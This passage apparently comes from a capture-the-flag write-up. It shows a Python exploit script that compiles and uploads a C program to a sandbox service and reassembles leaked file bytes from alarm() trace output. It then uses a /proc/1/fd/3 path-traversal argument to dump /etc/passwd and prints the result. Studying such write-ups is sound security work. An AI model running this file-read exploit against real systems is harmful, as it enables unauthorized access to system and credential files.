 ```py
guid_source = uuid.uuid4()
guid_bin = uuid.uuid4()

source = open(f'./{guid_source}.c', 'w')
source.write(C_CODE)
source.close()

os.system(f'gcc ./{guid_source}.c -o {guid_bin}')

multipart_form_data = {
    'file': (f'{guid_bin}', open(f'./{guid_bin}', 'rb')),
}

r = requests.post(URL, files=multipart_form_data, allow_redirects=True)
os.system(f'rm ./{guid_source}.c {guid_bin}')


out = b''

valid_lines = [line for line in r.text.split('\n') if 'alarm(0x' in line]
for line in valid_lines:
    exfil = line.split('alarm(0x')[1].split(') = 0x')[0]
    exfil = '0' * (8 - len(exfil)) + exfil
    out += unhexlify(exfil)[::-1]

save_out = open(FILENAME.replace('/', '_'), 'wb')
save_out.write(out)
save_out.close()
```

Testing it with the `/etc/passwd` file again we can now comfortably retrieve it.

```
$ python3 readfile.py '/proc/1/fd/3/../../../../../../etc/passwd'
```

```
$ cat _proc_1_fd_3_.._.._.._.._.._.._etc_passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:101:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
clarence:x:1000:1000:clarence,,,:/home/clarence:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
sandbox:x:1001:1001::/home/sandbox:/usr/sbin/nologin
```